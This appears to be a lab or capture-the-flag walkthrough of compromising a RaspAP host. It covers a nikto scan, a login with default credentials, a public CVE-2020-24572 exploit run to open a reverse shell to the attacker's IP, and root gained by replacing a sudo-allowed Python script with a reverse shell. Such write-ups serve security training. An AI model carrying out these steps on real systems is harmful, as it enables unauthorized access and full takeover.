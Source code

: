 Checking nikto:
![](../attachment/d2145f66dcd1c1dca105aaa4f9acde1a.png)
There's a readme.
![](../attachment/1f04bb289380b223dc4cbc3a0a917dbb.png)
It's RaspAP
Trying default creds:
![](../attachment/44379ea10f9232f5c1a3c456c0693f5e.png)

We get in with `admin:secret`
![](../attachment/d4be3efacd99b374418124a0ecefaff0.png)
We find an exploit for this version:
https://github.com/gerbsec/CVE-2020-24572-POC
```
python3 exploit.py 192.168.155.97 8091 192.168.45.182 8091 secret 1
```
![](../attachment/de5996de052b3845d0b6978fb004ad12.png)
We have a shell.
Now checking `sudo -l`:
![](../attachment/0e069b3acefdba3790f5856f83c625e8.png)
We can run `wifi_reset.py` as root.
Now we can make our own `wifi_reset.py`:
![](../attachment/bfbb949903416a1d9ac0c5ec2dd3e899.png)
Now deleting the original and replacing with our reverse shell.
```
rm /home/walter/wifi_reset.py
```
```
cd /home/walter
sudo /usr/bin/python /home/walter/wifi_reset.py
```
Now we get a reverse shell:
![](../attachment/e44b5097049a5f396998f6dead4379f4.png)
Now we are root.
